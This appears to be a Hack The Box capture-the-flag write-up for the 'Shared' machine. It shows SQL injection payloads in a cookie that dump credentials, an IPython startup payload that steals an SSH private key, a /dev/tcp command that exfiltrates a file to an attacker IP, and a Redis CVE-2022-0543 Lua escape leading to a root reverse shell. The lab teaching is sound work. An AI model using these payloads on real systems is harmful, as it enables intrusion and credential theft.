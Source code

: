 ```yaml
---
layout: single
title: Shared HTB writeup
excerpt: "Medium linux machine in which we use SQL injection, exploit ipython and redis"
date: 2022-08-01
classes: wide
header:
  teaser: /assets/images/shared/icon-shared.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - SQL injection
  - ipython
  - redis
---
```


![](/assets/images/shared/shared.png)

# Shared
## User flag

```shell
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

The page appears to be a shop and it's fatal flaw can easily be spotted in the checkout subdomain when you try and purchase something. Looking at the cookies there is a custom cart cookie that is url encoded. However decoding it has no effect and it may be vulnerable to SQL injection so I tried to fuzz the cookie

```shell
ffuf -w ~/wordlist/SQL.txt -u http://checkout.shared.htb -b "custom_cart={"FUZZ":"1"}" -fs 3229

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://checkout.shared.htb
 :: Wordlist         : FUZZ: /home/dasor/wordlist/SQL.txt
 :: Header           : Cookie: custom_cart={FUZZ:1}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 3229
________________________________________________

"' or 1 --'"            [Status: 200, Size: 3593, Words: 1827, Lines: 70]
```

Although the -b option from ffuf didn't work as I expected since I wanted it to use the \"\" it still gave me an interesting hint. This result probably means the cookie is vulnerable to comment injection and eventually after getting some data with this cookies I found a hashed md5 password


```shell
{"cn' union select 1,database(),3 #":"1"}
{"cn' union select 1,TABLE_NAME,3 from INFORMATION_SCHEMA.TABLES where table_schema='checkout'#":"1"}
{"cn' union select 1,COLUMN_NAME,3 from INFORMATION_SCHEMA.COLUMNS where table_name='user'#":"1"}
{"cn' union select 1,username,3 from checkout.user #":"1"}
{"cn' union select 1,password,3 from checkout.user #":"1"}
```

Once the hash was cracked it was time to get connected by ssh

```shell
hashcat --show -m 0 pass ~/wordlist/rockyou.txt
fc895d4eddc2fc12f995e18c865cf273:Soleil101
```

Once in pspy I found some interesting stuff being executed by the user dan\_smith regularly

```shell
james_mason@shared:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
2022/08/14 10:31:02 CMD: UID=1001 PID=120589 | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython

```
iphyton is being executed regularly so I searched for an exploit and found [this](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)


```shell
mkdir -m 777 profile_default; cd profile_default; mkdir -m 777 startup ; cd startup ; echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/key')" > foo.py
```

By using this payload I got the ssh private key and logged as dan\_smith getting the user flag. After some time of not getting anything with linpeas and pspy I looked at the groups of the user and searched for file owned by that group

## Root flag

```shell
dan_smith@shared:~$ groups
dan_smith developer sysadmin
dan_smith@shared:~$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

The binary logged into redis so I copied it to my system to see the credentials

```shell
dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev >& /dev/tcp/10.10.14.60/7777 0>&1
...
[dasor@archlinux ~/htb/shared]$ nc -lvp 7777 > binary
Connection from 10.10.11.172:34794
[dasor@archlinux ~/htb/shared]$ chmod a+x binary
[dasor@archlinux ~/htb/shared]$ ./binary
[+] Logging to redis instance using password...

INFO command result:
 i/o timeout

... (other console)

[dasor@archlinux ~]$ nc -lvp 6379
Connection from 127.0.0.1:53292
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

Once in I knew this instance was probably vulnerable to CVE-2022-0543 (lua code injection) so I tried

```shell
dan_smith@shared:~$ redis-cli --pass F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
```

Now I just had to use that to escalate privileges yet chmod u+s /bin/bash wasn't working as well as the reverse shell until I thought of a smarter method a.k.a writing the reverse shell to a file and then piping bash

```
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /dev/shm/rv | bash ", "r"); local res = f:read("*a"); f:close(); return res' 0
...
nc -lvp 7777
```

However the reverse shell doesn't last forever but is more than enough to get the flag.
